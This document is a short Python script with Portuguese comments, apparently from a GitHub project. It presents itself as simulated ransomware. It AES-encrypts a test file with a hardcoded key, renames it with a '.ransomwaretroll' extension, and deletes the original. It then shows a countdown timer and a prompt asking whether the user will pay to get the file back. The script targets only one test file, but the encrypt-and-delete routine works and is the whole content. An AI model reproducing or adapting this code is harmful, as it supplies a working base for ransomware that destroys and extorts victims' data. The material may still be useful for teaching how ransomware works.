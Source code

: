 import os
import pyaes
import time

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    with open(file_name, "rb") as file:
        file_data = file.read()

    aes = pyaes.AESModeOfOperationCTR(key)
    crypto_data = aes.encrypt(file_data)

    new_file_name = file_name + ".ransomwaretroll"
    with open(new_file_name, 'wb') as new_file:
        new_file.write(crypto_data)

    os.remove(file_name) 
    print(f"Arquivo {file_name} criptografado com sucesso!")

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    with open(file_name, "rb") as file:
        file_data = file.read()

    aes = pyaes.AESModeOfOperationCTR(key)
    decrypt_data = aes.decrypt(file_data)

    os.remove(file_name)

    new_file_name = file_name.replace(".ransomwaretroll", "")
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo {new_file_name} restaurado com sucesso!")

# Timer para simular a pressão do tempo
def countdown(time_left):
    while time_left > 0:
        mins, secs = divmod(time_left, 60)
        print(f"Tempo restante: {mins:02d}:{secs:02d}", end="\r")
        time.sleep(1)
        time_left -= 1

    print("\nO tempo acabou! Seus arquivos foram comprometidos.")

# Função principal para executar o ransomware simulado
def main():
    file_name = "teste.txt"
    key = b"testeransomwares"

    # Criptografar o arquivo
    encrypt_file(file_name, key)

    # Definir o tempo (em segundos) para o timer
    total_time = 5 * 60  # 5 minutos

    # Iniciar o timer
    countdown(total_time)

    # Perguntar ao usuário se deseja pagar para restaurar o arquivo
    response = input("Deseja pagar para restaurar seus arquivos? (sim/não): ").strip().lower()

    if response == "sim":
        decrypt_file(file_name + ".ransomwaretroll", key)
    else:
        print("Você escolheu não pagar. Seus arquivos permanecerão criptografados.")

if __name__ == "__main__":
    main()
